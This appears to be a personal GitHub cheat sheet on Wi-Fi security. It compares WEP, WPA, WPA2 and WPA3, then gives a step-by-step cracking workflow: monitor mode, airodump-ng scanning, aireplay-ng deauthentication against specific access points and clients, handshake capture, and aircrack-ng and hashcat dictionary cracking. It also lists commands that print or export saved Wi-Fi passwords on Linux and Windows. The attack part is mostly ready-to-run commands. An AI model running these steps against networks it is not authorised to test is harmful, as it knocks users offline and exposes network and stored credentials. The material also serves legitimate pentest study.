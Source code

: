 ### 🔒 WEP (Wired Equivalent Privacy)

- Introduced: 1997 (original Wi-Fi standard, IEEE 802.11).
- Encryption: RC4 stream cipher with 64-bit / 128-bit keys.
- Weakness: Very easy to crack due to weak key scheduling and predictable IV (Initialization Vector).
- Status: Obsolete – can be hacked in minutes with tools like Aircrack-ng.

### 🔒 WPA (Wi-Fi Protected Access)

- Introduced: 2003 (as a quick fix to replace WEP).
- Encryption: TKIP (Temporal Key Integrity Protocol).
- Improvement: Added per-packet key mixing + message integrity check.
- Weakness: Still vulnerable (TKIP is outdated), can be cracked with dictionary attacks.
- Status: Deprecated but still seen in old devices.

### 🔒 WPA2 (Wi-Fi Protected Access 2)

- Introduced: 2004 (mandatory since 2006 for Wi-Fi certification).
- Encryption: AES-CCMP (stronger than TKIP).
- Improvement: Much more secure than WPA.
- Weakness: Vulnerable to KRACK attack (2017) if patches not applied; WPA2-Personal (PSK) can be cracked via weak passwords.
- Status: Still widely used today.

### 🔒 WPA3 (Wi-Fi Protected Access 3)

- Introduced: 2018 (latest standard).
- Encryption: SAE (Simultaneous Authentication of Equals) replaces PSK.
- Improvement:
	- Strong protection against offline password-guessing.
	- Forward secrecy (session keys stay safe even if password is later known).
	- Mandatory 192-bit encryption for enterprise networks.
- Weakness: Some early implementation flaws (Dragonblood attack), but patches fixed most issues.
- Status: Most secure standard available; slowly becoming mainstream.

#### ✅ Summary:

- WEP → insecure, obsolete.
- WPA → weak, deprecated.
- WPA2 → secure if patched, still common.
- WPA3 → most secure, recommended for modern networks.

---

### 📡 Wi-Fi Modes in Linux / Networking

#### 🔍 Monitor Mode

**What it is:**
- A special mode where the Wi-Fi card can capture all wireless traffic in the air, even if it’s not meant for your device.

**Use cases:**
- Packet sniffing (Wireshark, tcpdump).
- Security testing (Aircrack-ng, Kismet).
- Analyzing nearby networks without connecting.

**Key point:**
- You don’t need to be connected to a network. It’s like putting your card into “listen-only” mode.
- Example command (Linux):
	```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor
	sudo ifconfig wlan0 up

	or 
    sudo airmon-ng check kill
	sudo airmon-ng start  wlan0
	```

#### 🌐 Managed Mode

**What it is:**
- The default mode for Wi-Fi cards. In this mode, your Wi-Fi card communicates only with the Access Point (AP) it’s connected to.

**Use cases:**
- Normal Wi-Fi usage (browsing, streaming, etc.).
- Standard network communication.

**Key point:**
- Only processes traffic to/from your device and ignores all other packets in the air.
- Example command (Linux):
```bash
sudo iwconfig
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed
sudo ifconfig wlan0 up

or 
sudo iwconfig
sudo airmon-ng stop  wlan0mon

```


### Pentesting Wifi

#### 1. wifite : 

   |NUM  |                    ESSID |  CH | ENCR  |  PWR   | WPS | CLIENT|                                       
   |---  |------------------------- | --- | ----- |  ----  | --- | ------|
   |  1  |                    ROBIN |   7 | WPA   |  99db  |  no |   1   |                                        
   |  2  |                    sonu  |   4 | WPA-P |  22db  | yes |   1   |

   - WPS enabled? :  ✅ WPS is ON → vulnerable to WPS attacks (Pixie Dust, Reaver, Bully).

#### 2. fern-wifi-cracker 


#### 3. Manually 

1. Enable Monitor Mode
```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor

	# or 

	sudo airmon-ng check kill         
    sudo airmon-ng start wlan0

    sudo airmon-ng stop  wlan0mon
```
2. Scan for targets
```bash
   sudo airodump-ng wlan0mon
```
3. Capture  handshake

```bash
	# BSSID = 16:32:51:73:9A:94

	sudo airodump-ng -c 11 --bssid 16:32:51:73:9A:94 -w capture wlan0mon

	# In Other terminal DeAuth to get handshake  :

	sudo aireplay-ng -0 10 -a 16:32:51:73:9A:94  -c Station_BSSID wlan0mon
	sudo aireplay-ng -0 50 -a 16:32:51:73:9A:94  -c C6:6D:35:3D:14:72 wlan0mon

	sudo aireplay-ng -0 5 -a <BSSID> wlan0mon

	# -0 = deauth attack
    # 10 = number of deauth packets
    # -a = target AP BSSID
```

5. Crack the handshake

- Now use a wordlist (like rockyou.txt):
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 16:32:51:73:9A:94 capture-02.cap
```
- Use of HashCat to crack the password
	- Online tool to convert pcap to hashcat-file
	```cmd
	 hashcat -a 0 -m 2500 [path to hashcat-file] [path to wordlist}
	```

```bash
#All Commnad
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng --bssid [MAC adress] -c [channel number] -w [output file] wlan0mon
aireplay-ng --deauth [Number of deauth packs] -a [MAC adress] wlan0mon
aircrack-ng [path to pcap file] -w [path to wordlist]
```







## Play with Windows/Linux cmd
-  Cmd to get saved password
```bash
# Linux : 
# SSID="Wifi Name"
sudo cat /etc/NetworkManager/system-connections/SSID.nmconnection | grep -i psk=

# Windows:

netsh wlan show profiles
netsh wlan show profile name="WiFi-Name" key=clear
netsh wlan export profile key=clear folder=C:\wifi-password-backup  #(including passwords) as XML


```


## ✅ Quick Workflow

- Before pentest
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

- After pentest (to restore internet)
```bash
sudo airmon-ng stop wlan0mon
sudo service NetworkManager restart
```
---







**Robin H00d : **
---

